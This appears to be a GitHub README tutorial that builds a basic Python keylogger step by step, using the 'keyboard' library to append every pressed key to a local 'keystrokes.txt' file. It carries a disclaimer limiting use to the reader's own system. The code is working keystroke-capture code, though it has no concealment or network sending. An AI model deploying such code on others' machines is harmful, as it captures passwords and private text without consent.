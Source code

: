 # Keylogger

Basic beginner keylogger

# Disclaimer

This tutorial is for educational purposes only and should only be used on your personal system. 
# Prerequisites

Personal host, I recommend doing this in a Windows VM.

Python, code editor, Im using Visual Studio Code.

# Step 1
Install the Required Library.

Open your command prompt or terminal and execute the following command: "pip install keyboard"

# Step 2 Importing the Necessary Libraries
This library will enable us to work with keyboard inputs. Insert the following line of code:

import keyboard

# Step 3 
Define the Log File

In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired. Add the following line of code:

log_file = 'keystrokes.txt'

# Step 4
Create the Key Press Event Function

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write('{}\n'.format(event.name))
        
# Step 5 
Register the Key Press Event

Register the ‘on_key_press’ function to be called whenever a key is pressed. This will enable our code to capture the keystrokes. Add the following line:

keyboard.on_press(on_key_press)
# Step 6 
Finally, we want our program to wait until a key is pressed before it exits. Use the 

‘keyboard.wait()’

function to accomplish this.

# Step 7: 
Run the Code

![Screenshot 2024-07-29 114950](https://github.com/user-attachments/assets/b4c6529f-d7b0-4ef3-b638-9813c1f0cb9b)

Save your Python script with a ‘.py’ extension fro example i named my filekeylogger.py’). Open your command prompt or terminal, navigate to the directory where the script is located, and execute the command:

py keylogger.py

![Screenshot 2024-07-29 122614](https://github.com/user-attachments/assets/f943a530-664c-4562-bb25-b1f051e2e85f)

 
